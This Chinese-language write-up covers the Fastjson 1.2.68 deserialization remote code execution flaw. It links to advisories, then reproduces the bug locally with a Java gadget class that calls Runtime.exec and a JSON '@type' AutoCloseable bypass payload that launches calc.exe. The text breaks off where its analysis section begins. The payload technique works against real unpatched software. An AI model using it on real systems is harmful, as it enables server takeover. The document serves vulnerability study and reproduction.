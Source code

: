 FastJson 反序列化漏洞



**Fastjson <=1.2.68版本存在远程代码执行漏洞**，漏洞被利用可直接获取服务器权限



[腾讯云公告](https://cloud.tencent.com/announce/detail/1112)





[漏洞分析1](https://xz.aliyun.com/t/7878)

[漏洞分析2](https://www.anquanke.com/post/id/208104)

[漏洞分析利用](https://blog.csdn.net/god_zzZ/article/details/107122487)

[漏洞阅读](https://github.com/LeadroyaL/fastjson-blacklist)

[fastjson 处理流程](https://paper.seebug.org/994/)

[历史漏洞](http://xxlegend.com/)

![image-20200706172438656](http://img.zhangqingdong.cn/image-20200706172438656.png)

> 问题复现：

先来一个简单的，A/B/C 是同一个地址： 而且恶意程序也只是在攻击者自己的地址调起一个计算器

```xml
<!--添加fastjson依赖-->
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.68</version>
</dependency>
```

```java
package com.ronhan.controller.security;

import java.io.IOException;

/**
 * 构造的恶意class程序，用于执行本地的一个程序
 *
 * @author qingdong.zhang
 * @version 1.0
 * @since 2020-07-06 17:13
 */
public class A implements AutoCloseable{

    public A(String cmd){
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void close() throws Exception {

    }
}
```

```java
package com.ronhan.controller.security;

import com.alibaba.fastjson.JSON;

/**
 * 构造的payload 及 模拟执行
 *
 * @author qingdong.zhang
 * @version 1.0
 * @since 2020-07-06 17:13
 */
public class FastJsonTest {

    public static void main(String[] args) {

        String payload = "{\"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.ronhan.controller.security.A\", \"cmd\":\"calc.exe\"}";
        JSON.parseObject(payload);

    }
}
```



成功弹出计算器

![image-20200706172930135](http://img.zhangqingdong.cn/image-20200706172930135.png)



> 尝试分析为什么会执行了一个calc.exe





